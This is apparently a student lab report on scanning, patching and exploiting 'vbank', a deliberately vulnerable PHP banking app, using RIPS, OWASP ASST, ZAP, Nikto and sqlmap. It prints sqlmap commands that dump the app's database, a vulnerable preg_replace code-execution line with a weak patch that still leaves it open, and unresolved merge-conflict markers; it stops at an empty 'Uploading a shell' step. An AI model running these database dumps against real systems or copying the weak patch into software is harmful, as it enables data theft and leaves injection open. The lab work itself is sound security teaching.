### Exercise 1: White Box Web Application Vulnerability Testing
__1. Apply your chosen scanner on the unpatched version of the source code of your webapplication. Identify the vulnerabilities which were not found by the tool and briefly explain why the tool was unable to find them (try to condense your answer to particular classes of vulnerabilities)?__

__Solution :__

**Chosen scanners:** 
   - RIPS
   - OWASP ASST

**Installation:**
   - **RIPS:**
      - Extract the files to your local web server's document root (in my case /var/www/html/).
      - To run the tool open the browser at http://localhost/rips-master.
      - Give a location to the code for testing in the *Path/file* field. 
      - Select *Verbosity level*: 4.
      - *Vulnerability type*: can select all or a particular vulnerability and hit scan.
         
      
      
   
   - **OWASP ASST:**
      -  Install [Xampp](https://sourceforge.net/projects/xampp/files/XAMPP%20Linux/5.6.40/) the same version used for the project (PHP-5).
      -  Put the project to test in Xampp folder `/opt/lampp/htdocs/vbank`. 
      -  Install Node.js.
      
      ```bash
         sudo apt-get install nodejs -y
         sudo apt-get install npm -y
         sudo npm install n -g
         sudo n 12.13.0
        ```    
      - Put the code of [ASST](https://github.com/OWASP/ASST) in the same folder `/opt/lampp/htdocs/ASST`.
      - Change `DEFAULT_PROJECT_PATH_TO_SCAN` in `config.js` to following.
      
      ```js
         DEFAULT_PROJECT_PATH_TO_SCAN: "/var/www/vbank_code/", // Path to project to test
      ```
     - Change following fields in `config_php_lang.js` to following.   
     
     ```js
      PHP_EXE_BIN_PATH: "/usr/bin/php", 
      IS_DBMS_USED: true,
      DBMS: "mysql",
      // if above IS_DBMS_USED = true, bellow settings are enabled and must be set
      YOUR_WEBAPP_DBMS_SERVER_IP: "127.0.0.1", 
      YOUR_WEBAPP_DBMS_DB_NAME: "vbank",
      YOUR_WEBAPP_DBMS_USERNAME: "root",
      YOUR_WEBAPP_DBMS_PASSWORD: "kakashi",
     ```
     ```bash
      sudo /opt/lampp/lampp start xampp
      cd /opt/lampp/htdocs/ASST
      node main.js
     ```
      

#### Vulnerabilities found (Test from both RIPS and ASST)           
| Vulnerability type          | RIPS | OWASP ASST |
| --------------------------- | ---- | ---------- |
| SQL Injection               | 17   | 21         |
| Cross site scripting        | 95   | 2          |
| Cross-Site Request Forgery  | 0    | 6          |
| Server-side request forgery | 0    | 0          |
| Local file inclusion        | 5    | 0          |
| Broken Authentication       | 0    | 6          |
| Session Hijacking           | 0    | 0          |
| Session Fixation            | 1    | 0          |
| Remote code Injection       | 1    | 0          |
| Sensitive Data Exposure     | 0    | 7          |
| Known Vulnerabilities       | 0    | 2          |


__1.1 Why the tool was unable to find them?__

- Every tool has its own rules and uses different techniques to detect vulnerabilities.
- Tool didn't find vulnerabilities such as Authentication problems, Access Control issues, insecure use of Cryptography.
  - This is due to a lack of compilation instructions, access to remote APIs inability to find the right libraries.
- RIPS didn't find CSRF AND SSRF because it was not included in rules whereas ASST detected CSRF because it has rules defined for CSRF vulnerabilities.


__2. Run the analysis again using the patched version of the source code of your web-application.
Check whether the vulnerabilities found before are still reported or not.__
__solution :__

#### Vulnerabilities Fix (Test RIPS)         
| Vulnerability type      | location                                      | security patch           | Test case                                                       | Result          |
| ----------------------- | --------------------------------------------- | ------------------------ | --------------------------------------------------------------- | --------------- |
| SQL Injection           | /vbank_code/pages/htbloanreq.page line 30     | mysql_real_escape_string | ---                                                             | POSITIVE        |
| File Inclusion          | vbank_code/etc/htb.inc line 24                | ---                      | There are no `include_once()` methods accepting user input      | FALSE POSITIVE  |
| Code Execution          | vbank_code/pages/htbdetails.page line 95      | Whitelisting             | ---                                                             | POSITIVE        |
| Cross-Site Scripting    | /vbank_code/pages/htbdetails.page line 85,102 | htmlspecialchars         | ---                                                             | FALSE POSITIVE |
| Session Fixation        | /vbank_code/etc/htb.inc line 53               | ---                      | There is no `setcookie` method accepting user input             | POSITIVE  |
| HTTP Response Splitting | vbank_code/etc/htb.inc line 27                | ---                      | The `URL` used in `header` method already have a security check | FALSE POSITIVE  |
| Reflection Injection    | vbank_code/htdocs/index.php line 21           | ---                      | `ob_start()` is not accepting user input                        | FALSE POSITIVE  |

- Red dot indicate there is an user-implemented security patch. 


**Test Cases:**
- **SQL Injection**
   - RIPS Scanner detected the SQLi if the code used the `mysql_query` function.<br/>
   
   - Variables (passed from other PHP classes or user input) used in `mysql_query` are protected using `mysql_real_escape_string`.<br/>
    
- **Code Execution**
   - Vulnarable code
   ```php
   $replaceWith =  preg_replace('#\b". str_replace('\\', '\\\\', ". $http['query'] ."\b#i', '<span class=\"queryHighlight\">\\\\0</span>','\\0');
   ``` 
   
   <br/>
   - Security patch 
<!--    - TODO: htmlspecialchars($http['query'])  -->

   ``` php
      $whitelists  = ['system','phpinfo']	;			
                     $string = $http['query'];
                     foreach ($whitelists as $whitelist) {
                         if (strpos($string, $whitelist) !== FALSE) {
                              $replaceWith =  "preg_replace('#\b". str_replace('\\', '\\\\', 'phpinfoReplaces') ."\b#i', '<span class=\"queryHighlight\">\\\\0</span>','\\0')";
                              break;
                         }else{
                              //echo "kakashi";
                              $replaceWith =  "preg_replace('#\b". str_replace('\\', '\\\\',$string) ."\b#i', '<span class=\"queryHighlight\">\\\\0</span>','\\0')";
                            }
                        }
    ```
   
   
   
   
   
  
- **Cross Site Scripting:**
   - Use `htmlspecialchars` to display data.
   - `transfersStr` is a string containing HTML table in it so `htmlspecialchars` cant be used. 
   - We can apply the `htmlspecialchars` to Row data used in transfersStr. This resulted in false positives but it is no longer vulnerable to XSS.
  
  
  
  

#### Vulnerabilities Fix (Test ASST)         
| Vulnerability type                          | location                                | security patch                    | Test | Test case | Result   |
| ------------------------------------------- | --------------------------------------- | --------------------------------- | ---- | --------- | -------- |
| SQL Injection                               | /vbank_code/htdocs/login.php line 17    | Preparedstatements                | ASST | ---       | POSITIVE |
| Cross Site Scripting                        | /vbank_code/htdocs/login.php line 14,15 | htmlentities and htmlspecialchars | ASST | ---       | POSITIVE |
| Cross-Site Request Forgery                  | vbank_code/pages/htbchgpwd.php          | CSRF Token                        | ASST | ---       | POSITIVE |
| Sensitive Data Exposure Vulnerabilities     | Passwords are not stored in Hash        | HASH the password                 | ASST | ---       | ---      |
| Using Components With Known Vulnerabilities | PHP Version is 5.6                      | Use new versions of PHP           | ASST | ---       | ---      |
| Broken Authentication Vulnerabilities       | /vbank_code/pages/htbchgpwd.php         | Implement Google reCaptcha        | ASST | ---       | ---      |

**Test Cases:**
- **SQL Injection**
     - Prepared statement
     
        ```
        if ($stmt = $link->prepare("SELECT id,password,username,name,firstname,time,lasttime,lastip from users where username =? and password=?")) {   
               $stmt->bind_param("ss", $username,$password);
               $stmt -> execute();
               $stmt -> store_result();
               $stmt -> bind_result($id,$password,$username,$name,$firstname,$time,$lasttime,$lastip);
         }
         ```
 
 
 
- **Cross Site Scripting**
   - Vulnarable code
   ```$username = $_REQUEST['username'];
      $password = $_REQUEST['password'];
   ```
   - Security patch
   ```$username = htmlentities(htmlspecialchars($_REQUEST['username']);
      $password = htmlentities(htmlspecialchars($_REQUEST['password']);
   ```



- **Cross-Site Request Forgery**
- Security patch
   ```html
    <input type="hidden" name="csrf_token" value="csrftoken" />
   ```
   - Use the same token value on the server side to validate.





### Exercise 2: Black-Box Web Application Vulnerability Testing

__1. Download two web vulnerability scanners and describe the all needed set-up environment
settings__
__solution :__
1. Owasp Zed Attack Proxy (Linux) (Avaialble in `kali Linux`)
   - Download the program from https://www.zaproxy.org/download/ , and select the Linux installer
   - run the file `./ZAP_2_10_0_unix.sh`
   - after successfull installation run the file from command line `$: zapproxy`
   - An gui app will be opened if ran without errors.
   



2. Nikto Vulnerabuility Scanner
- A command line web vulnerability scanner

```bash
git clone https://github.com/sullo/nikto
# Main script is in program/
cd nikto/program
# Run using the shebang interpreter
./nikto.pl -h http://www.vbank.com
# Run using perl (if you forget to chmod)
perl nikto.pl -h http://www.vbank.com

# to use the proxy
perl nikto.pl -h http://www.vbank.com -useproxy
```
  - Avialble by Default in Kali installation
  - Run the application `nikto -h http://vbank.com`




__2. Report how you found the different vulnerabilities: SQLi, XSS, etc.__
__solution__
1. Nikto Vulnerability Scanner
   - Run the nikto from command line with `--host` switch for host url



- Vulnerabilities/info found:
1. Clickjacking
2. Cross site scripting
3. Directory traversal
4. cookie without httponly flag
5. Server information in response headers


2. Owasp Zap vulnerability scanner
-  run the zapproxy `zapproxy` and click on the `automated scan`

<br>
- Results


**ZAP Scanning Report**

**Summary of Alerts**

| Risk Level    | Number of Alerts |
| ------------- | ---------------- |
| High          | 1                |
| Medium        | 1                |
| Low           | 4                |
| Informational | 2                |

**Alerts (From Scan Report)**

| Name                                                  | Risk Level    | Number of Instances |
| ----------------------------------------------------- | ------------- | ------------------- |
| Cross Site Scripting (DOM Based)                      | High          | 1                   |
| X-Frame-Options Header Not Set                        | Medium        | 3                   |
| Absence of Anti-CSRF Tokens                           | Low           | 3                   |
| Cookie No HttpOnly Flag                               | Low           | 1                   |
| Cookie Without SameSite Attribute                     | Low           | 1                   |
| X-Content-Type-Options Header Missing                 | Low           | 19                  |
| Information Disclosure - Sensitive Information in URL | Informational | 3                   |
| Information Disclosure - Suspicious Comments          | Informational | 1                   |

<<<<<<< HEAD
**Alerts (Manual test comparing ZAP)**

| Name | Risk Level | Number of Instances | **False Positive**
| --- | --- | --- | --- | 
| Cross Site Scripting (DOM Based) | High | 1 | **Yes**|
| X-Frame-Options Header Not Set | Medium | 3 | **No**|
| Absence of Anti-CSRF Tokens | Low | 3 | **No**|
| Cookie No HttpOnly Flag | Low | 1 | **No**|
| Cookie Without SameSite Attribute | Low | 1 | **No**|
| X-Content-Type-Options Header Missing | Low | 19 | **No**|
| Information Disclosure - Sensitive Information in URL | Informational | 3 | **No**|
| Information Disclosure - Suspicious Comments | Informational | 1 | **No**|
=======
#### Alerts (Manual test From Generated report from ZAP)
| Name                                                  | Risk Level    | Number of Instances | **False Positive** |
| ----------------------------------------------------- | ------------- | ------------------- | ------------------ |
| Cross Site Scripting (DOM Based)                      | High          | 1                   | **Yes**            |
| X-Frame-Options Header Not Set                        | Medium        | 3                   | **No**             |
| Absence of Anti-CSRF Tokens                           | Low           | 3                   | **No**             |
| Cookie No HttpOnly Flag                               | Low           | 1                   | **No**             |
| Cookie Without SameSite Attribute                     | Low           | 1                   | **No**             |
| X-Content-Type-Options Header Missing                 | Low           | 19                  | **No**             |
| Information Disclosure - Sensitive Information in URL | Informational | 3                   | **No**             |
| Information Disclosure - Suspicious Comments          | Informational | 1                   | **No**             |
>>>>>>> New_Prashanth


__3. Now you have collected enough information about the victim web application and found
multiple serious SQL injection vulnerabilities.
Use an automatic exploitation tool (e.g. sqlmap) to dump all the database, upload a web shell
and prove that you have control of the bank server!__

- Using `sqlmap` to find sql injection and dump database content
- Usage
```bash
$: sqlmap -u 'http://192.168.37.128/login.php?username=alex' --dbs
```
__Result:__



- Found `vbank` database (along with others)
- use `--dump` as switch and dump the contents of database `vbank` with `-D` switch


```bash
└─$ sqlmap -u 'http://192.168.37.128/login.php?username=alex' -D vbank --dump            
```


- Uploading a shell


```bash
